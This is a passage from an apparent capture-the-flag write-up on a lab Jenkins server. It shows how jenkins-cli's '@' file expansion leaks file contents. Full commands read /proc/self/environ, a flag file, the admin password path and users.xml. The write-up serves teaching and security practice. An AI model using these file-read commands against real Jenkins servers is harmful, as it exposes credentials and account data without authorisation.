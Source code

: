 The environment variables (`/proc/self/environ`) are:

```

HOSTNAME=0f52c222a4cc
JENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimental
JAVA_HOME=/opt/java/openjdk
JENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementals
COPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.log
PWD=/
JENKINS_SLAVE_AGENT_PORT=50000
JENKINS_VERSION=2.441
HOME=/var/jenkins_home
LANG=C.UTF-8
JENKINS_UC=https://updates.jenkins.io
SHLVL=0
JENKINS_HOME=/var/jenkins_home
REF=/usr/share/jenkins/ref
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```

I can actually read `user.txt` at this point from the jenkins user’s home directory:

```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/user.txt' a

ERROR: Too many arguments: a
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: ffcb78dc3a26226b97276f24e26fc272)

```

#### Passwords

Jenkins [stores](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.html) the initial password for the admin user at `/var/jenkins_home/secrets/initialAdminPassword`. Unfortunately, that returns “No such file”:

```

oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a

ERROR: No such file: /var/jenkins_home/secrets/initialAdminPassword
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command

```

Jenkins [stores information](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa) about its user accounts in `/var/jenkins_home/users/users.xml`. Using `reload-node`, I’ll get the lines of that file, albeit a bit scrambed:
